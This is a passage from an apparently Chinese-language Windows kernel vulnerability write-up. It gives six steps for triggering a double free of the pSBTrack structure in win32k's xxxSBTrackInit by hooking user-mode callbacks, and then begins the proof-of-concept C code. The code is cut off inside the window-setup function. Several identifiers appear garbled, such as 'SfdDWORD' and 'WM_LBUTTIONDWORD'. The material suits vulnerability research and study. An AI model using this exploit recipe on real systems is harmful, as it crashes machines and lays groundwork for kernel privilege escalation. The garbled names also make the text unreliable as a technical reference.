 1、创建一个带有八字节额外内存的窗口对象，并将该对象的句柄赋值到额外内存中供之后使用。  
同时，在该窗口中在创建一个滚动条对象用来触发漏洞。  
  
  
2、HOOK SfdDWORD和xxxCreateFreeWindowClassExtraBytes返回到用户层会执行的函数。  
  
  
3、向创建的窗口发送WM_LBUTTIONDWORD函数来调用xxxSBTrackInit函数。  
  
  
4、在用户层定义的xxxClientFreeWindowClassExtraBytes会根据要释放的内存中保存的是否是第一步中窗口的窗口句柄，来判断是否要修改fnid和  
调用SetCapture。  
  
  
5、在用户层定义的SfdDWORD的处理函数中，会判断如果是第一次调用就会通过DestroyWindow来调用xxxFreeWindow。  
如果是第二处调用，则发送WM_CANCELMODE来是否pSBTrackInit函数。  
  
  
6、当xxxSBTrackInit函数最后释放pSBTrack结构体的时候就会因为双重释放导致BSOD。  
  
  
相应的POC代码如下：  
```
BOOL CreateWindows()
{
    BOOL bRet = TRUE;
 
    HINSTANCE handle = NULL;
 
    handle = GetModuleHandle(NULL);
    if (!handle)
    {
        bRet = FALSE;
        ShowError("GetModuleHandle", GetLastError());
        goto exit;
    }
 
    char *szClassName = "MainWindow";
    WNDCLASS wc = { 0 };
 
    wc.style = CS_HREDRAW | CS_VREDRAW;
    wc.lpfnWndProc = DefWindowProc;
    wc.hInstance = handle;
    wc.cbWndExtra = 8;
    wc.lpszClassName = szClassName;
 
    if (!RegisterClass(&wc))
    {
        bRet = FALSE;
        ShowError("RegisterClass", GetLastError());
        goto exit;
    }
 
    Window = CreateWindowEx(0, szClassName, NULL, WS_DISABLED, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL);
    if (!Window)
    {
        bRet = FALSE;
        ShowError("CreateWindowEx", GetLastError());
        goto exit;
    }
 
    SetWindowLong(Window, 0, (ULONG)Window);
 
    ScrollBar = CreateWindowEx(0, "SCROLLBAR", NULL, WS_CHILD | WS_VISIBLE | SBS_HORZ, NULL, NULL, 2, 2, Window, NULL, handle, NULL);
    if (!ScrollBar)
    {
        bRet = FALSE;
```